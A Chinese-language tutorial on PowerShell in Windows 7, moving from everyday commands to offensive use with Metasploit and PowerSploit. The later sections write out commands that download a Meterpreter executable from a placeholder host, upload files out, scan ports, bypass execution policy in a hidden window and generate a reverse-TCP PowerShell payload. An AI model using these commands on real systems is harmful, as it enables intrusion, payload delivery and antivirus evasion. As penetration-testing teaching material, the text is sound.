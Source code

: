 # 与Powershell

&#x20;**大家都在说windows7的防护水平大大高于windows xp了，但是并不都是如此，Win7下给出现了一个强大高级cmd————>powershell。**&#x8BE5;shell最大的特点就是支持脚本编程，酷似linux的bash（准确说应该是各种sh），下面就简要介绍下它的功能，以及如何与metasploit配合(今年北美著名的安全会议[Derbycon](https://www.derbycon.com/)给出的，这个会议是美国国防部下属的DARPA资助的，内容非常好，建议大家关注)：

## &#x20;基本命令

&#x20;开始–>运行–>powershell 开启powershell界面

&#x20;get-command \*-service 获得服务相关的命令 \
&#x20;get-help get service 获得命令的帮助

&#x20;支持脚本文件的命令集 脚本的后缀名为.PS1,支持管道：

## &#x20;powershell使用示例：

&#x20;停止所有目前运行中的以”p”字符开头命名的程序：

```bash
PS> get-process p* | stop-process
```

&#x20;停止所有目前运行中的所有使用大于1000MB存储器的程序：

```bash
PS> get-process | where { $_.WS -gt 1000MB } | stop-process
```

&#x20;计算一个目录下文件内的字节大小：

```bash
PS> get-childitem | measure-object -property length -sum
```

&#x20;等待一个叫做”notepad”的程序运行退出：

```bash
PS> $processToWatch = get-process notepad
PS> $processToWatch.WaitForExit()
```

&#x20;将”hello, world!”字符串转为英文大写字符，成为”HELLO, WORLD!”：

```bash
PS> “hello, world!”.ToUpper()
```

&#x20;在字符串”string”的第1个字符后插入字符串”ABC”，成为”sABCtring”：

```bash
PS> “string”.Insert(1, “ABC”)
```

&#x20;订阅一个指定的RSS Feed并显示它最近8个主题：

```bash
PS> $rssUrl = “http://blogs.msdn.com/powershell/rss.aspx”
PS> $blog = xml.DownloadString($rssUrl)
PS> $blog.rss.channel.item | select title -first 8
```

### &#x20;使用powershell执行shellcode

&#x20;使用dns payloads的方式通过powershell执行meterpreter，达到免杀、过IPS的效果

### &#x20;使用powershell进行文件的上传、下载和端口扫描

&#x20;下载

```
ps>Import-Module BitsTransfer
ps>Start-BitsTransfer http://ip/meter.exe c:\meter.exe
```

&#x20;上传

```
Start-BitsTransfer -Source c:\upload.txt -Destination http://ip/upload/upload.txt -transfertype upload
```

&#x20;端口扫描

```
ps c:>1..1024 | %{ echo ((new-object Net.Sockets.TcpClient).Connect(“10.1.1.14”,$)) “$ is open”} 2>$null
25 is open
```

## &#x20;powersploit 堪比meterpreter的后渗透攻击框架

&#x20;Carlos Perez国外大牛设计了基于powersploit的渗透脚本集合，用于授权渗透测试使用。。。。（大家都知道怎么回事），里面的主要包含了一下几个脚本

```bash
Inject-Dll(注入dll到指定进程)
Inject-Shellcode（注入shellcode到执行进程）
Encrypt- Script（文本或脚本加密）
Get-GPPPassword（通过groups.xml获取明文密码）
Invoke- ReverseDnsLookup（扫描 DNS PTR记录）
```

&#x20;具体的代码就请查看作者的github代码仓库：[powerexploit](https://github.com/mattifestation/PowerSploit)

## &#x20;Metasploit与powershell结合

&#x20;西点军校毕业的这货[Chris Gates](http://carnal0wnage.attackresearch.com/)说windows就是他的backdoor，为什么？ 首先就是powershell提供了上传和下载功能，这在渗透过程中能省很多事，其次他说没有见过哪些Meterpreter的事Powershell做不了的，举例：

```bash
* Powershell hashdump（in SET）
* Powershell exec method in MSSQL_Payload * PowerSploit(上面提到了)
```

&#x20;绕过powershell本身的权限限制：

```bash
-powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive —NoProfile -WindowStyle Hidden —File “C:\do_neat_ps_shit.ps1”
```

&#x20;使用Metasploit生成Powershell

```bash
msf_ payload(reverse_tcp) > generate -t psh -f powershellexec.ps1
```

&#x20;使用批处理文件从Meterpreter中运行Powershell

```bash
c:\type run_ps.bat powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File C:\ipinfo2.ps1
```

&#x20;示例：

```bash
meterpreter > execute -H -f cmd.exe -a ‘/c C:\runps.bat’ Process 28536 created. meterpreter>
–snip–
```

## &#x20;总结

&#x20;windows7下的powershell功能不可小觑，应该一起广大安全爱好研究这的研究和重视，后面还会给出相关powershell安全研究的讨论。最后推荐两个博客：\
&#x20;[中文博客](http://www.pstips.net/)：研究powershell中文博客,包含powershell的命令解释、脚本编程的各种小技巧\
&#x20;[英文博客](http://www.exploit-monday.com/)：国外某大牛博客，对powershell有很多安全方面的研究，国外黑客大会推荐
